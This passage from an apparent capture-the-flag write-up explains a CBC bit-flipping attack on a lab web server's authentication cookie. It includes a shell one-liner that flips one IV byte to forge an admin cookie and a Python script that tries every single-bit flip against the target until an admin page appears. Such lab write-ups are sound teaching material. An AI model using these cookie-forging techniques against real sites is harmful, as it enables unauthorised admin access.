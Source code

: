 I want to target the data that will be XORed against the intermediate state. So to get the sixth byte (q –> a), I’ll flip the sixth byte in the IV, 0x4d. 0x4d is `0100 1101` in binary. To flip the bit that’s different between `a` and `q`, I’ll change it to `0101 1101`, which is 0x5d.

I can use `sed` to change that byte, and then `xxd -r` to convert back to binary and `base64` to encode:

```

root@kali# echo "jQHLsfJNbqtkfIJHOMKjgJBdENqKUpEA" | base64 -d | xxd | sed 's/ 38c2 / 38d2 /' | xxd -r | base64
jQHLsfJNbqtkfIJHONKjgJBdENqKUpEA

```

If I add this cookie and visit `index.php`, it gives the admin page.

#### Exploit - Brute

More likely is that I don’t know the structure of the underlying plaintext. There could be more information in the cookie than just the username. A more reliable attack is to brute over all the bits flipping each to see if it works.

There’s a way to do this attack using Burp Intruder, but I don’t have a copy of the pro version, and it’s so throttled that I can write a script to do it faster than running it. Here’s my Python script to try flipping each bit:

```

#!/usr/bin/env python3

import base64
import requests

def flip_bit(byte, pos):
    return byte ^ pow(2,pos)

cookie = 'jQHLsfJNbqtkfIJHOMKjgJBdENqKUpEA'
cookie_bin = base64.b64decode(cookie)

for i in range(len(cookie_bin)):
    for j in range(8):
        mod_byte = flip_bit(cookie_bin[i], j)
        mod_cookie_bin = cookie_bin[:i] + bytes([mod_byte]) + cookie_bin[i+1:]
        mod_cookie = base64.b64encode(mod_cookie_bin).decode()
        resp = requests.get('http://10.10.10.18/index.php', cookies={'auth': mod_cookie})
        if 'admin' in resp.text:
            print(f'Flip byte {i}, xor by 0x{pow(2,j):02x} - new cookie: {mod_cookie}')
            exit()

```

I created a helper function `flip_bit` which takes a byte and a position (0-7) and returns that byte with the bit in that one position flipped. It relies on the fact that the powers of two are words with a single bit on:
